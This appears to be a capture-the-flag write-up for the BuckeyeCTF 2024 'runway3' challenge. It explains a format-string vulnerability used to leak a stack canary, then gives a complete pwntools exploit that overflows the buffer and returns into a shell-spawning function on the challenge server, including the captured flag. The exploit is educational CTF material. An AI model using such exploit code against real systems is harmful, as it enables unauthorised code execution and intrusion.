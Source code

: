 # runway3 [120 solves]
### Challenge Description
> A new technique!

`nc challs.pwnoh.io 13403`
### Challenge Author 
> Author: kanderoo
# Challenge Files 
we are given with the source file that was used for compiling the binary.
```c filename=runway3.c
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <sys/sendfile.h>

int win() {
    printf("You win! Here is your shell:\n");
    fflush(stdout);

    system("/bin/sh");
}

int echo(int amount) {
    char message[32];

    fgets(message, amount, stdin);

    printf(message);
    fflush(stdout);
}

int main() {
    printf("Is it just me, or is there an echo in here?\n");
    fflush(stdout);

    echo(31);
    echo(100);

    return 0;
}
```
# Solution
## Analysis
first analyse the binary provided to us.
```bash
fooker@fooker:~/buckeyectf2024/pwn/runway3$ file runway3
runway3: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=d6a1dc4dca86a6bbd13389e8b6613de00ae50e81, for GNU/Linux 3.2.0, not stripped
fooker@fooker:~/buckeyectf2024/pwn/runway3$ checksec runway3
[*] '~/buckeyectf2024/pwn/runway3/runway3'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
the binary provided to us this time does have a canary protection. a quick glance at the source file hints us at `ret2win`. however, to perform a ret2win we must find a way to defeat the stack canary protection. 
## Format String Vulnerability
in teh `echo()` function, the source file allows to call `printf()` directly on a buffer that reads in the user-input. 
```c
char message[32];

fgets(message, amount, stdin);

printf(message);
```
this allows us to leverage an arbitrary read primitive. we could use this to read the stack canary. since the stack canaries are actually the copies of the master canary, therefore we know that the canary used in every other stackframe would be the same. the next call to `echo()` allows to write in `100 bytes` into the buffer which is significantly large to overflow the buffer and therefore we could craft a ROP chain.

## Leaking the Stack Canary 
i calculated the offset of the stack canary using `gdb`. then using the `%lx` format specifier, we could read the stack canary in a single payload. here's the full exploit

```py
from pwn import *

exe = './runway3'
elf = context.binary = ELF(exe, checksec=True)
rop = ROP(exe)

host = 'challs.pwnoh.io'
port = 13403
r = remote(host, port, level='DEBUG')
# r = process(exe, level='DEBUG')

gs = '''
break *echo
continue
'''

## r = gdb.debug(exe, gdbscript=gs)

r.recvuntil(b'here?\n')

stack_payload = b'%13$lx'
r.sendline(stack_payload)
canary = int(r.recvline().strip().decode(), 16)

# printhex(ret_address))
payload = b'A' * 40 + p64(canary) + b'A' * 8 + p64(rop.ret[0]) + p64(elf.symbols['win'])

## print(payload)
## print(len(payload))

r.sendline(payload)

r.interactive()
```
when we run this binary, we do indeed get a shell.
```bash
fooker@fooker:~/buckeyectf2024/pwn/runway3$ python3 exploit.py
[*] '~/buckeyectf2024/pwn/runway3/runway3'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 5 cached gadgets for './runway3'
[+] Opening connection to challs.pwnoh.io on port 13403: Done
[*] Switching to interactive mode
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYou win! Here is your shell:
$ ls
flag.txt
run
$ cat flag.txt
bctf{wh0_kn3w_pr1nt1ng_w4s_s0_d4nG3R0Us_11aabc3287e74603}$
```
and we can just `cat` the flag
## Flag
`bctf{wh0_kn3w_pr1nt1ng_w4s_s0_d4nG3R0Us_11aabc3287e74603}`
